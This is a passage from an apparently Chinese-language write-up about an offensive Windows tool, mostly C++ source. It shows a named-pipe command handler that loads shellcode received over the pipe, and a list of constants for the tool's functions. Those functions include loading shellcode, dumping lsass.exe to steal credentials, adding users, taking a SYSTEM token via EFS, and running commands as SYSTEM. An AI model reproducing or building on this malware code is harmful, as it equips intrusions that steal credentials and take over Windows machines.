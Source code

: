 ```cpp
                /// 参数：system-run
                /// </summary>
                /// <param name=""></param>
                /// <returns></returns>
                CheckSuccessAndSendMsg(Execute(), hPipe);
                break;
            case METHOD_SET_SYSTEM_SHELLCODE:
                /// <summary>
                /// 设置全局Shellcode
                /// 参数：system-code
                /// </summary>
                /// <param name=""></param>
                /// <returns></returns>
                ZeroMemory(szBuffer, BUFF_SIZE);
                ReadFile(hPipe, szBuffer, BUFF_SIZE, &dwLen, NULL);
                g_ShellcodeBuffer = new char[dwLen];
                RtlCopyMemory(g_ShellcodeBuffer, szBuffer, dwLen);
                g_dwShellcodeSize = dwLen;
                break;
            case METHOD_UNSET_SYSTEM_SHELLCODE:
                /// <summary>
                /// 清空全局Shellcode
                /// 参数：system-uncode
                /// </summary>
                /// <param name=""></param>
                /// <returns></returns>
                g_dwShellcodeSize = 0;
                g_ShellcodeBuffer = NULL;
                break;
                
            default:

                break;
            }
            // 关闭连接
            DisconnectNamedPipe(hPipe);
        }
```

METHOD开头的常量代表了不同的功能：

```cpp
#define PIPE_NAME L"\\\\.\\pipe\\josPipe"
#define BUFF_SIZE 1024
#define METHOD_WMI_CREATE_PROCESS 0x00 // WMIC 创建进程
#define METHOD_SHELL_CODE_LOADE 0x01  // SHELLCODE 加载
#define METHOD_MINIDUMP_LSASS 0x02   // 转储Lsass.exe
#define METHOD_ADD_USER 0x03  // 添加用户
#define METHOD_GETSYSTEM 0x04  // 利用EFS获取SYSTEM的Token
#define METHOD_SYSTEM_EXECUTE 0x05 // 以SYSTEM权限执行命令
#define METHOD_SET_SYSTEM_SHELLCODE 0x07 // 设置Shellcode
#define METHOD_UNSET_SYSTEM_SHELLCODE 0x08 // 取消设置Shellcode
```
